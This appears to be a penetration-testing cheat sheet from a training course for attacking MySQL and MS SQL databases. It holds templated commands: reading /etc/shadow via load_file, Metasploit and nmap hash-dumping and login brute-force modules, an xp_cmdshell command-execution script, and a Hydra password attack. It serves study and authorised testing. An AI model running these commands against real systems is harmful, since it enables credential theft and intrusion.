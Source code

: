 # SQL

* [mysql](#mysql)
* [Metasploit](#metasploit)
* [nmap](#nmap)
* [Hydra](#hydra)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show tables;
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

***********************************************************************

## Metasploit

### mysql
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
```
use auxiliary/scanner/mysql/mysql_login
```
show advanced options:
```
advanced
```

### MS SQL
```
use auxiliary/scanner/mssql/mssql_login
```
```
use auxiliary/scanner/admin/mssql/mssql_enum
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_logins
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_exec
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_domain_accounts
```

***********************************************************************

## nmap

### mysql
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

### MS SQL
* --script ms-sql-info
* --script ms-sql-ntlm-info --script-args mssql.instance-port=[PORT]
   * Default port for MS SQL is 1433 
* --script ms-sql-brute --script-args userdb=[WORDLIST-PATH],passdb=[WORDLIST-PATH]
* --script ms-sql-empty-password
* --script ms-sql-query --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-query.query="SELECT * FROM [TABLE]" -oN [OUTPUT-FILE]
* --script ms-sql-dump-hashes --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD]
* --script ms-sql-xp-cmdshell --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-xp-cmdshell.cmd="[COMMAND-YOU-WANT-TO-RUN]"

***********************************************************************

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] mysql
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2

